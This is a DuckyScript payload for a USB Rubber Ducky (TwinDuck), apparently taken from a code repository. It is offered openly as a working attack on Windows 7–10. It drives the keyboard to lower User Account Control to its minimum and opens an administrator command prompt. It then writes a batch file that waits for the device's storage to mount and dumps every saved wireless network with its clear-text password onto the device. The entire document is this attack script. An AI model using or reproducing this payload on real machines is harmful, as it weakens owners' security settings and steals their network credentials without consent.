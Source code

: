 REM This payload is designed to retrieve all save wireless networks and their passwords, on a windows 7-10 machine.  I have modified the normal way around bypassing UAC because i found that on some machines, the alert prompt where we would typically say "ALT y" or "LEFTARROW ENTER", is sometimes not the focus of the screen.. this method goes right into the UAC settings and lowers it to the min.

REM --> Auth- eliddell
REM --> for use with TwinDuck on windows 7+
REM --> This duck will take all saved wireless networks and save their info including passwords/keys, to a text file on your duck
DEFAULT_DELAY 75
DELAY 3000
REM --> Minimize all windows
WINDOWS d
DELAY 500
REM run CMD as admin to see network passwords/keys
REM sometimes the admin prompt does not take focus on machines with secure desktop we will force UAC to min
CONTROL ESCAPE
DELAY 300
STRING useraccountcontrolsettings
ENTER
DELAY 300
LEFTARROW
ENTER
DELAY 300 
DOWNARROW
DOWNARROW
DOWNARROW
DOWNARROW
TAB
ENTER
DELAY 300
LEFTARROW
ENTER
DELAY 300
CONTROL ESCAPE
DELAY 300
STRING cmd
CTRL-SHIFT ENTER
DELAY 300
REM Change directories because System32 appears to be protected. 
STRING CD %TEMP%
ENTER
REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
STRING erase /Q DuckyWait.bat
ENTER
STRING copy con DuckyWait.bat
ENTER
REM DuckyWait.bat contents
STRING :while1
ENTER
STRING for /f %%d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%%d
ENTER
STRING if Exist %myd% (
ENTER
STRING goto break
ENTER
STRING )
ENTER
STRING timeout /t 30
ENTER
STRING goto while1
ENTER
STRING :break
ENTER
REM 
REM once mounted switch to ducky dir for ease of dumping log to txt
STRING %myd%
ENTER
DELAY 500
REM iterate through all saved wlan profiles and print saved info for each
STRING for /f "tokens=4 delims=: " %%A in ('netsh wlan show profiles') do netsh wlan show profiles name=%%A key=clear >>wlanProfiles.txt
CONTROL z
ENTER
REM run duckywait
STRING DuckyWait.bat
ENTER
DELAY 500
STRING exit
ENTER
WINDOWS d
